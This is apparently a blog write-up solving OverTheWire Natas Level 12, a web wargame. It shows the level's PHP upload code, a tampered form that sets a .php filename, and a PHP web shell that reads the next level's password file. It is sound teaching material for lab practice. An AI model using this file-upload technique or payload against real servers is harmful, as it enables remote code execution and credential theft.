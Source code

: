```yaml
---
title: "OverTheWire Natas Level 12"
date: "2012-11-11T06:27:00-05:00"
comments: true
highlight: "true"
categories:
 - overthewire
 - wargames
 - natas
 - php
 - hacking
---
```


The next level to attack in the [OverTheWire](http://www.overthewire.org) Natas wargame, is [Level 12](http://www.overthewire.org/wargames/natas/natas12.shtml), which is more "real-world" as well, since developers often forget to limit file extensions.

<!-- more -->

It starts out giving you the option to upload a <1KB file to the server.

{{% figure class="img-responsive" src="/img/natas12_1.png" %}}

As with any other challenge, I viewed the source, to analyze it. 

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas12</h1> 
<div id="content"> 
<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

The filename of the uploaded file is a randomly generated .jpg file, based on the hidden input in the HTML. To change that, there are a few ways, but I simply did the old-school method of saving the HTML to my desktop, and modifying it, since there was no code to verify the HTTP Referer. I made the code read:

```
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas12</h1>
<div id="content">

<form enctype="multipart/form-data" action="http://natas12.natas.labs.overthewire.org/index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="hostess.php" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

I had really only changed the filename to be a .php extension, since it will still be randomly assigned a filename, but keep the extension. The other change was simply to make it submit to the full URL of the site.

I then opened up the HTML file in my browser, and selected a PHP file that I had made just for this level. It simply reads the password file for the next level, and prints it to the screen. The code for it is as follows: 

```
<?php
$file = file_get_contents('/etc/natas_webpass/natas13');
echo $file;
?>
```

{{% figure class="img-responsive" src="/img/natas12_2.png" %}}

Once that uploaded, it gave me a link to the newly uploaded file.

{{% figure class="img-responsive" src="/img/natas12_3.png" %}}

Once the newly uploaded file executed, it wrote out the contents of the next level's password.

{{% figure class="img-responsive" src="/img/natas12_4.png" %}}
